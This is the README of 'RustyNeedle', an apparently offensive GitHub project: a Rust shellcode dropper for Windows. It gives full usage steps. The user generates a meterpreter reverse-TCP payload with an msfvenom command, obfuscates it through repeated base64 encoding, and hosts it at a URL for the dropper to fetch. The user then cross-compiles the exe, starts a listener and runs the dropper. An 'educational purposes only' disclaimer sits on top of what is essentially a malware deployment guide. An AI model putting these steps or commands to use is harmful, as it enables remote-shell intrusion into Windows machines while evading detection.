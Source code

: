# RustyNeedle

**THIS CODE IS FOR EDUCATIONAL PURPOSES ONLY. I take no responsibility if you decide to do crimes with this code.**

A simple dropper for shellcode that leverages the power of...base64 encoding??

No seriously. And it works. Here's how:

## Usage

1. Create your shellcode however you like, be it with `msfvenom` or other tools. Export the raw shellcode file.

2. Use the encode.py script provided in this repository to create an encoded version of the shellcode. 

```bash
python3 encode.py [SHELLCODE_FILE] [B64_ITERATIONS] [OUT_FILE]
```

### Arguments

* `SHELLCODE_FILE`: raw shellcode file to encode
* `B64_ITERATIONS`: # of times to base64-encode the shellcode
* `OUT_FILE`: Resulting text file of the encoded shellcode. **NOTE:** this will be many times larger than the source!

### Alternative usage

If you don't want to use the script, you can also encode `0x` hex values from `msfvenom`. It would go something like this:

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f csharp | tail -n+2 | sed 's/[{}; \n]//g' | base64 -w 0 > note.txt
# Pipe to base64 -w 0 as many times as you want to iterate the encoding
```
3. Edit the source code in `src/main.rs` to reflect the URL where the encoded shellcode will be hosted.

4. Run `cargo build --target x86_64-pc-windows-gnu --release`. If building on Linux for Windows, make sure you've added the Windows target triple with `rustup target add x86_64-pc-windows-gnu`.

5. Copy the resulting exe in `target/x86_64-pc-windows-gnu/release/rustyneedle.exe` wherever you like.

6. Set up any listeners, then execute the dropper!

